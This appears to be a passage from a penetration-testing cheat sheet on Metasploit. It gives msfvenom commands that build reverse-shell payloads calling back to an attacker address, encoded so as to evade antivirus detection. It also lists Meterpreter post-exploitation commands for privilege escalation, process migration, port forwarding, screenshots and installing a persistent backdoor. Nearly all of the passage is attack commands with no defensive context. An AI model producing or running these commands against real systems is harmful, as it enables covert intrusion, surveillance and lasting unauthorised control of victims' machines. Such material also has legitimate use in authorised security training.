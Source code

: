 ### Payload Encoding and Evasion
```bash
# Encode payload to avoid detection
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe > encoded_shell.exe

# Multiple encoding iterations
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf > encoded_shell.elf

# List available encoders
msfvenom --list encoders
```

---

## Meterpreter Post-Exploitation

### What is Meterpreter?
Advanced payload that provides:
- **In-memory execution**: Doesn't write to disk
- **Encrypted communication**: TLS encrypted C2 channel
- **Extensible**: Loadable modules for various functions
- **Multi-platform**: Works on Windows, Linux, Android, etc.

### Basic Meterpreter Commands
```bash
# System information
sysinfo                      # System information
getuid                       # Current user
getpid                       # Current process ID
ps                          # List processes

# File system operations
pwd                         # Current directory
ls                          # List files
cd /path/to/directory       # Change directory
download /remote/file /local/path  # Download file
upload /local/file /remote/path    # Upload file

# Process management
migrate <PID>               # Migrate to another process
kill <PID>                 # Kill process
execute -f /bin/bash -i     # Execute command
```

### Advanced Meterpreter Features
```bash
# Network enumeration
arp                         # ARP table
netstat                     # Network connections
route                       # Routing table
portfwd add -l 8080 -p 80 -r 192.168.1.100  # Port forwarding

# Privilege escalation
getsystem                   # Attempt to get SYSTEM (Windows)
getprivs                    # Show current privileges

# Persistence
run persistence -X -i 60 -p 4444 -r 10.10.10.10  # Install persistent backdoor

# Screenshot and webcam
screenshot                  # Take screenshot
```